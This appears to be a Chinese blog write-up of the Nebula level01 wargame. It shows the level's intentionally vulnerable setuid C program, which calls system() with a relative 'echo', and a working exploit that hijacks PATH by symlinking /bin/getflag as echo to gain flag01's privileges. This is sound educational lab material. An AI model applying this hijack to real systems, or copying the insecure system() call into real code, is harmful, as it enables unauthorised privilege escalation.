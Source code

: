 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level01"
date: 2014-01-09 14:54:40 +0800
comments: true
categories: Security, Exercises, Nebula
---
```


有了level00的铺垫，level01就非常简单直接了。感觉上Nebula系列的基本要求是用levelXX用户登录，通过放在/home/flagXX目录下的可执行程序来获得flagXX的用户权限，对于level01而言，可执行程序为/home/flag01/flag01，其源代码在网站上给出了：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

<!-- more --> 

前边代码的作用在上一篇博客中提到了，为了使当前的effective uid为flag01，所以system这一句是以flag01这个user的权限执行的。通过/usr/bin/env程序执行了echo程序，在屏幕上打印“and now what？”，不过在执行echo这个命令的时候没有使用绝对路径，使得通过修改$PATH来执行任意程序成为了可能。在本例中，通过修改$PATH和重定向来直接以flag01用户执行/bin/getflag程序：

``` bash
~ $ export PATH=/home/level01:$PATH
~ $ ln -s /bin/getflag /home/level01/echo
~ $ /home/flag01/flag01
You have successfully executed getflag on a target account
```

这样就可以了。通过重定向其他程序为/home/level01/echo，可以用flag01用户执行任意程序。